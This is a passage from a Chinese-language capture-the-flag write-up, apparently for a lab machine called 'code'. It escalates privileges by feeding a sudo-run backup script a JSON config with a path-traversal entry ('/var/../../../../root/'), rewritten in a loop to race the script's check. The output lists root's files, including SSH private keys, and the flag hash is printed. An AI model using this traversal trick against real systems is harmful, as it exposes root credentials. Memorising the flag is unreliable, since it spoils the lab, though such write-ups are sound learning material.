 准备一份恶意的 json 并转换为 json

```json
{
    "destination": "/home/martin/Backup",
    "multiprocessing": true,
    "verbose_log": true,
    "directories_to_archive": [
        "/var/../../../../root/"
    ]
}
```

转换为 base64 之后准备攻击

```shell
# SSH Session 1
martin@code:~$ for i in $(seq 100000);do echo ewoJImRlc3RpbmF0aW9uIjogIi9ob21lL21hcnRpbi9CYWNrdXAiLAoJIm11bHRpcHJvY2Vzc2luZyI6IHRydWUsCgkidmVyYm9zZV9sb2ciOiB0cnVlLAoJImRpcmVjdG9yaWVzX3RvX2FyY2hpdmUiOiBbCgkJIi92YXIvLi4vLi4vLi4vLi4vcm9vdC8iCgldCn0= | base64 -d > 1.json ;done

# SSH Session 2
martin@code:~$ mkdir /home/martin/Backup
martin@code:~$ sudo /usr/bin/backy.sh 1.json
2025/03/26 12:55:06 🍀 backy 1.2
2025/03/26 12:55:06 📋 Working with 1.json ...
2025/03/26 12:55:06 💤 Nothing to sync
2025/03/26 12:55:06 📤 Archiving: [/var/../../../../root]
2025/03/26 12:55:06 📥 To: /home/martin/Backup ...
2025/03/26 12:55:06 📦
tar: Removing leading `/var/../../../../' from member names
/var/../../../../root/
/var/../../../../root/.local/
/var/../../../../root/.local/share/
/var/../../../../root/.local/share/nano/
/var/../../../../root/.local/share/nano/search_history
/var/../../../../root/.sqlite_history
/var/../../../../root/.profile
/var/../../../../root/scripts/
/var/../../../../root/scripts/cleanup.sh
/var/../../../../root/scripts/backups/
/var/../../../../root/scripts/backups/task.json
/var/../../../../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/var/../../../../root/scripts/database.db
/var/../../../../root/scripts/cleanup2.sh
/var/../../../../root/.python_history
/var/../../../../root/root.txt
/var/../../../../root/.cache/
/var/../../../../root/.cache/motd.legal-displayed
/var/../../../../root/.ssh/
/var/../../../../root/.ssh/id_rsa
/var/../../../../root/.ssh/authorized_keys
/var/../../../../root/.bash_history
/var/../../../../root/.bashrc
```

即可得到`/root`目录下的所有文件

## FLAG - ROOT

```flag title="/root/root.txt"
892e16b9e30ca207f83c926f6f76cd43
```
